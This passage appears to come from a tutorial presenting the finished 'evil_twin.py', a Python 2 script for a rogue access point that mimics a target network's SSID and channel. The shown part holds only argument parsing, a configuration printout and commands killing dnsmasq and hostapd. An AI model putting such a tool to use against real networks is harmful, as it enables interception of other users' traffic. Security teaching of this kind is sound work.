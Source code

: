 # evil\_twin.py - the finished script

Our finished evil_twin.py file is now ready to run, and should look something like this.

{% highlight python %}
import utils
import time

from argparse import ArgumentParser

def set_configs():


    parser = ArgumentParser()

    parser.add_argument('-l',
                dest='upstream',
                required=True,
                type=str,
                metavar='<interface>',
                help='Use this interface as access point.')

    parser.add_argument('-i',
                dest='phys',
                required=True,
                type=str,
                metavar='<interface>',
                help='Use this interface to connect to network gateway.')

    parser.add_argument('-s',
                dest='ssid',
                required=True,
                type=str,
                metavar='<ssid>',
                help='The ssid of the target ap.')

    parser.add_argument('-c',
                dest='channel',
                required=True,
                type=int,
                metavar='<channel>',
                help='The channel of the target ap.')

    args = parser.parse_args()
    
    return {

        'upstream' : args.upstream,
        'phys' : args.phys,
        'ssid' : args.ssid,
        'channel' : args.channel,
    }

def display_configs(configs):

    print
    print '[+] Access Point interface:', configs['upstream']
    print '[+] Network interface:', configs['phys']
    print '[+] Target AP Name:', configs['ssid']
    print '[+] Target AP Channel:', configs['channel']
    print

def kill_daemons():

    print '[*] Killing existing dnsmasq and hostapd processes.'
    print 

    utils.bash_command('killall dnsmasq')
    utils.bash_command('killall hostapd')
